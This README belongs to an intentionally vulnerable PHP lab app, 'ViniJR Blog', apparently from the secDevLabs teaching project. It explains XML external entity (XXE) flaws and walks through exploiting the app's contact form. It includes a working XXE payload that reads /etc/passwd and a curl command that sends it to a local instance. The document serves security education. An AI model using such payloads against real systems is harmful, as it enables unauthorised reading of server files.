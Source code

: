 # ViniJR Blog

<p align="center">
    <img src="images/blog-fe.png"/>
</p>

This is a simple PHP web application that contains an example of a Security Misconfiguration (XXE) vulnerability and the main goal of this app is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-xxe)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is XXE?

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a4/vinijr-blog
```

```sh
make install
```

Then simply visit [localhost:10004][app] ! 😆

## Get to know the app ⚽️

To properly understand how this application works, you can follow these simple steps:

- Visit its homepage!
- Try sending ViniJR a message.

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Non sanitized input field allows for an attacker to retrieve sensitive information

After reviewing the inputs from the app, it is possible to identify that the section "GET IN TOUCH" allows users to send messages to the server, as shown in the following picture:

<img src="images/attack-1.png" align="center"/>

Using [Burp Suite](https://portswigger.net/burp) proxy to intercept this request (POST to contact.php) reveals that the message is being built using an XML (if you need any help setting up your proxy you should check this [guide](https://support.portswigger.net/customer/portal/articles/1783066-configuring-firefox-to-work-with-burp)):

<img src="images/attack-2.png" align="center"/>

To replicate this POST using [curl](https://curl.haxx.se/), create the following file `payload.xml`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And run:

```sh
curl -d @payload.xml localhost:10004/contact.php ; echo
```

By checking the source code of the [file](../vinijr-blog/app/contact.php), it is possible to see how this XML is loaded on the server side:

<img src="images/attack-3.png" align="center"/>

### 🔥

As no validation is being used to avoid [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) being sent to the PHP file, an attacker could create the following `evilxml.xml` to perform a XXE:

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And, as the following picture shows, it is possible to realize that the attack succeeds and sensitive information is retrieved from the server that is hosting the vulnerable app:

```sh
curl -d @evilxml.xml localhost:10004/contact.php ; echo
```

<img src="images/attack-4.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Extract data from the server through the method showed above.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22ViniJr+Blog%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10004
